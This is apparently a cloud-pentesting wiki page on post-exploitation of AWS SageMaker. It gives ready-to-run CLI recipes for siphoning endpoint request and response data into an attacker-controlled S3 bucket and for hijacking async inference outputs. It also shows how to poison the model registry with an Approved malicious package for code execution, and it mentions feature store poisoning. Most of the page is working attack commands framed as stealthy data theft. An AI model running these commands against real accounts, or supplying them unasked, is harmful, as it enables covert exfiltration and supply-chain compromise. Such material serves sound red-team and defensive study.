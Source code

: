 # AWS - SageMaker Post-Exploitation

## SageMaker endpoint data siphon via UpdateEndpoint DataCaptureConfig

Abuse SageMaker endpoint management to enable full request/response capture to an attacker‑controlled S3 bucket without touching the model or container. Uses a zero/low‑downtime rolling update and only requires endpoint management permissions.

### Requirements
- IAM: `sagemaker:DescribeEndpoint`, `sagemaker:DescribeEndpointConfig`, `sagemaker:CreateEndpointConfig`, `sagemaker:UpdateEndpoint`
- S3: `s3:CreateBucket` (or use an existing bucket in the same account)
- Optional (if using SSE‑KMS): `kms:Encrypt` on the chosen CMK
- Target: An existing InService real‑time endpoint in the same account/region

### Steps
1) Identify an InService endpoint and gather current production variants

```bash
REGION=${REGION:-us-east-1}
EP=$(aws sagemaker list-endpoints --region $REGION --query "Endpoints[?EndpointStatus=='InService']|[0].EndpointName" --output text)
echo "Endpoint=$EP"
CFG=$(aws sagemaker describe-endpoint --region $REGION --endpoint-name "$EP" --query EndpointConfigName --output text)
echo "EndpointConfig=$CFG"
aws sagemaker describe-endpoint-config --region $REGION --endpoint-config-name "$CFG" --query ProductionVariants > /tmp/pv.json
```

2) Prepare attacker S3 destination for captures

```bash
ACC=$(aws sts get-caller-identity --query Account --output text)
BUCKET=ht-sm-capture-$ACC-$(date +%s)
aws s3 mb s3://$BUCKET --region $REGION
```

3) Create a new EndpointConfig that keeps the same variants but enables DataCapture to the attacker bucket

Note: Use explicit content types that satisfy CLI validation.

```bash
NEWCFG=${CFG}-dc
cat > /tmp/dc.json << JSON
{
  "EnableCapture": true,
  "InitialSamplingPercentage": 100,
  "DestinationS3Uri": "s3://$BUCKET/capture",
  "CaptureOptions": [
    {"CaptureMode": "Input"},
    {"CaptureMode": "Output"}
  ],
  "CaptureContentTypeHeader": {
    "JsonContentTypes": ["application/json"],
    "CsvContentTypes": ["text/csv"]
  }
}
JSON
aws sagemaker create-endpoint-config \
  --region $REGION \
  --endpoint-config-name "$NEWCFG" \
  --production-variants file:///tmp/pv.json \
  --data-capture-config file:///tmp/dc.json
```

4) Apply the new config with a rolling update (minimal/no downtime)

```bash
aws sagemaker update-endpoint --region $REGION --endpoint-name "$EP" --endpoint-config-name "$NEWCFG"
aws sagemaker wait endpoint-in-service --region $REGION --endpoint-name "$EP"
```

5) Generate at least one inference call (optional if live traffic exists)

```bash
echo '{"inputs":[1,2,3]}' > /tmp/payload.json
aws sagemaker-runtime invoke-endpoint --region $REGION --endpoint-name "$EP" \
  --content-type application/json --accept application/json \
  --body fileb:///tmp/payload.json /tmp/out.bin || true
```

6) Validate captures in attacker S3

```bash
aws s3 ls s3://$BUCKET/capture/ --recursive --human-readable --summarize
```

### Impact
- Full exfiltration of real‑time inference request and response payloads (and metadata) from the targeted endpoint to an attacker‑controlled S3 bucket.
- No changes to the model/container image and only endpoint‑level changes, enabling a stealthy data theft path with minimal operational disruption.

## SageMaker async inference output hijack via UpdateEndpoint AsyncInferenceConfig

Abuse endpoint management to redirect asynchronous inference outputs to an attacker-controlled S3 bucket by cloning the current EndpointConfig and setting AsyncInferenceConfig.OutputConfig S3OutputPath/S3FailurePath. This exfiltrates model predictions (and any transformed inputs included by the container) without modifying the model/container.

### Requirements
- IAM: `sagemaker:DescribeEndpoint`, `sagemaker:DescribeEndpointConfig`, `sagemaker:CreateEndpointConfig`, `sagemaker:UpdateEndpoint`
- S3: Ability to write to the attacker S3 bucket (via the model execution role or a permissive bucket policy)
- Target: An InService endpoint where asynchronous invocations are (or will be) used

### Steps
1) Gather current ProductionVariants from the target endpoint

```bash
REGION=${REGION:-us-east-1}
EP=<target-endpoint-name>
CUR_CFG=$(aws sagemaker describe-endpoint --region $REGION --endpoint-name "$EP" --query EndpointConfigName --output text)
aws sagemaker describe-endpoint-config --region $REGION --endpoint-config-name "$CUR_CFG" --query ProductionVariants > /tmp/pv.json
```

2) Create an attacker bucket (ensure the model execution role can PutObject to it)

```bash
ACC=$(aws sts get-caller-identity --query Account --output text)
BUCKET=ht-sm-async-exfil-$ACC-$(date +%s)
aws s3 mb s3://$BUCKET --region $REGION || true
```

3) Clone EndpointConfig and hijack AsyncInference outputs to the attacker bucket

```bash
NEWCFG=${CUR_CFG}-async-exfil
cat > /tmp/async_cfg.json << JSON
{"OutputConfig": {"S3OutputPath": "s3://$BUCKET/async-out/", "S3FailurePath": "s3://$BUCKET/async-fail/"}}
JSON
aws sagemaker create-endpoint-config --region $REGION   --endpoint-config-name "$NEWCFG"   --production-variants file:///tmp/pv.json   --async-inference-config file:///tmp/async_cfg.json
aws sagemaker update-endpoint --region $REGION --endpoint-name "$EP" --endpoint-config-name "$NEWCFG"
aws sagemaker wait endpoint-in-service --region $REGION --endpoint-name "$EP"
```

4) Trigger an async invocation and verify objects land in attacker S3

```bash
aws s3 cp /etc/hosts s3://$BUCKET/inp.bin
aws sagemaker-runtime invoke-endpoint-async --region $REGION --endpoint-name "$EP" --input-location s3://$BUCKET/inp.bin >/tmp/async.json || true
sleep 30
aws s3 ls s3://$BUCKET/async-out/ --recursive || true
aws s3 ls s3://$BUCKET/async-fail/ --recursive || true
```

### Impact
- Redirects asynchronous inference results (and error bodies) to attacker-controlled S3, enabling covert exfiltration of predictions and potentially sensitive pre/post-processed inputs produced by the container, without changing model code or image and with minimal/no downtime.

## SageMaker Model Registry supply-chain injection via CreateModelPackage(Approved)

If an attacker can CreateModelPackage on a target SageMaker Model Package Group, they can register a new model version that points to an attacker-controlled container image and immediately mark it Approved. Many CI/CD pipelines auto-deploy Approved model versions to endpoints or training jobs, resulting in attacker code execution under the service’s execution roles. Cross-account exposure can be amplified by a permissive ModelPackageGroup resource policy.

### Requirements
- IAM (minimum to poison an existing group): `sagemaker:CreateModelPackage` on the target ModelPackageGroup
- Optional (to create a group if one doesn’t exist): `sagemaker:CreateModelPackageGroup`
- S3: Read access to referenced ModelDataUrl (or host attacker-controlled artifacts)
- Target: A Model Package Group that downstream automation watches for Approved versions

### Steps
1) Set region and create/find a target Model Package Group
```bash
REGION=${REGION:-us-east-1}
MPG=victim-group-$(date +%s)
aws sagemaker create-model-package-group --region $REGION --model-package-group-name $MPG --model-package-group-description "test group"
```

2) Prepare dummy model data in S3
```bash
ACC=$(aws sts get-caller-identity --query Account --output text)
BUCKET=ht-sm-mpkg-$ACC-$(date +%s)
aws s3 mb s3://$BUCKET --region $REGION
head -c 1024 </dev/urandom > /tmp/model.tar.gz
aws s3 cp /tmp/model.tar.gz s3://$BUCKET/model/model.tar.gz --region $REGION
```

3) Register a malicious (here benign) Approved model package version referencing a public AWS DLC image
```bash
IMG="683313688378.dkr.ecr.$REGION.amazonaws.com/sagemaker-scikit-learn:1.2-1-cpu-py3"
cat > /tmp/inf.json << JSON
{
  "Containers": [
    {
      "Image": "$IMG",
      "ModelDataUrl": "s3://$BUCKET/model/model.tar.gz"
    }
  ],
  "SupportedContentTypes": ["text/csv"],
  "SupportedResponseMIMETypes": ["text/csv"]
}
JSON
aws sagemaker create-model-package --region $REGION   --model-package-group-name $MPG   --model-approval-status Approved   --inference-specification file:///tmp/inf.json
```

4) Verify the new Approved version exists
```bash
aws sagemaker list-model-packages --region $REGION --model-package-group-name $MPG --output table
```

### Impact
- Poison the Model Registry with an Approved version that references attacker-controlled code. Pipelines that auto-deploy Approved models may pull and run the attacker image, yielding code execution under endpoint/training roles.
- With a permissive ModelPackageGroup resource policy (PutModelPackageGroupPolicy), this abuse can be triggered cross-account.

## Feature store poisoning

Abuse `sagemaker:PutRecord` on a Feature Group with OnlineStore enabled to overwrite live feature values consumed by online inference. Combined with `sagemaker:GetRecord`, an attacker can read sensitive features. This does not require access to models or endpoints.

{{#ref}}
feature-store-poisoning.md
{{/ref}}

